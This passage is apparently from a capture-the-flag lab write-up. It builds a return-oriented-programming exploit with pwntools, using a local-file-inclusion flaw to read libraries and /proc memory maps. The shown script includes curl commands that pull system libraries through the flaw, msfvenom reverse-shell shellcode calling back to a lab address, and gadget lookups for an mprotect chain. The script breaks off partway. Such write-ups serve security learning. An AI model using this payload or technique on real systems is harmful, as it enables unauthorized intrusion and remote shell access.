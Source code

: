 Instead of typing all the ROP addresses manually, we will use the `ROP` function from pwntools. So we can simply load a library like that:
```bash
libc = ELF('./libc.so.6', checksec=False)
rop = ROP([libc])
```

And simply search for gadgets like that:
```bash
pop_rdi = rop.rdi[0]                        
pop_rsi = rop.rsi[0]                        
pop_rdx = rop.rdx[0]                        
jmp_rsp = rop.jmp_rsp[0]                    
```

### Final exploit
Using the information we got from the LFI and using the libraries we just downloaded we can get to a final exploit like below:
```python
#!/usr/bin/env python3

import requests
from pwn import *

context.clear(arch='amd64')

#########################################
#   FIND THE LIBS AND STACK ADDRESSES   #
#########################################
# curl http://10.10.11.154/index.php?page=/usr/lib/x86_64-linux-gnu/libc-2.31.so -o libc-2.31.so
libc = ELF('./libc-2.31.so', checksec=False)
libc.address = 0x7f64e6b94000               # LFI: /proc/402/maps

# curl http://10.10.11.154/index.php?page=/usr/lib/x86_64-linux-gnu/libsqlite3.so.0.8.6 -o libsqlite3.so.0.8.6
libsqlite3 = ELF('./libsqlite3.so.0.8.6', checksec=False)
libsqlite3.address = 0x7f64e6d59000         # LFI: /proc/402/maps
stack_base = 0x7ffc836e2000                 # LFI: /proc/402/maps
stack_end = 0x7ffc83703000                  # LFI: /proc/402/maps
stack_size = stack_end - stack_base         # 0x21000

##########################################
#             REVERSE SHELL              #
##########################################
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.2 LPORT=1234 -f py -b '\x00'
buf =  b""
buf += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
buf += b"\xef\xff\xff\xff\x48\xbb\x50\xa3\x78\xc8\x1f\xfd\xf8"
buf += b"\x70\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
buf += b"\x3a\x8a\x20\x51\x75\xff\xa7\x1a\x51\xfd\x77\xcd\x57"
buf += b"\x6a\xb0\xc9\x52\xa3\x7c\x1a\x15\xf7\xf6\x73\x01\xeb"
buf += b"\xf1\x2e\x75\xed\xa2\x1a\x7a\xfb\x77\xcd\x75\xfe\xa6"
buf += b"\x38\xaf\x6d\x12\xe9\x47\xf2\xfd\x05\xa6\xc9\x43\x90"
buf += b"\x86\xb5\x43\x5f\x32\xca\x16\xe7\x6c\x95\xf8\x23\x18"
buf += b"\x2a\x9f\x9a\x48\xb5\x71\x96\x5f\xa6\x78\xc8\x1f\xfd"
buf += b"\xf8\x70"

##########################################
#        FIND THE GADGETS ADDRESS        #
##########################################
rop = ROP([libc, libsqlite3])               # Load the libs to start ROP chain
# search ROP Gadgets                   
mprotect = libc.symbols['mprotect']         # 0xf8c20   readelf -s libc.so.6 | grep mprotect
pop_rdi = rop.rdi[0]                        # 0x26796   ropper -f libc.so.6 --search "pop rdi; ret"
pop_rsi = rop.rsi[0]                        # 0x2890f   ropper -f libc.so.6 --search "pop rsi; ret"
```